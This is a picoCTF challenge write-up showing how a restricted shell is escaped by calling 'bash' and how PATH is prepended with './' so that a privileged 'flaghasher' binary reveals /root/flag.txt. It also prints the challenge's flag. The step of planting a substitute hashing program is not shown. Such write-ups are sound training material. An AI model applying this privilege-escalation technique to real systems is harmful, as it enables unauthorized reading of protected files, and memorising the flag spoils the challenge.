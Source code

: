 # Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!Connect using `ssh @rescued-float.picoctf.net` with the password,  and run the binary named "flaghasher".

# Solution

This challenge should be related with hash-only-1, first we identify that instead of our home directory the binary is in the /usr/local/bin path now.

```
ctf-player@pico-chall$ whereis flaghasher
flaghasher: /usr/local/bin/flaghasher
```

Seems like we are in a restricted shell that doesn't allow us to modify environment variables like we did before with hash-only-1 or do other stuff like call files directly using a full path /xxx/xxx.

```
ctf-player@pico-chall$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```

Just for the lulz we tested if we were able to call other shells like bash and that did the trick, we were able to escape the "restricted" shell.

```
ctf-player@pico-chall$ bash
ctf-player@challenge:~$ export PATH=./:$PATH
ctf-player@challenge:~$ echo $PATH
./:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf-player@challenge:~$ /usr/local/bin/flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs}
```
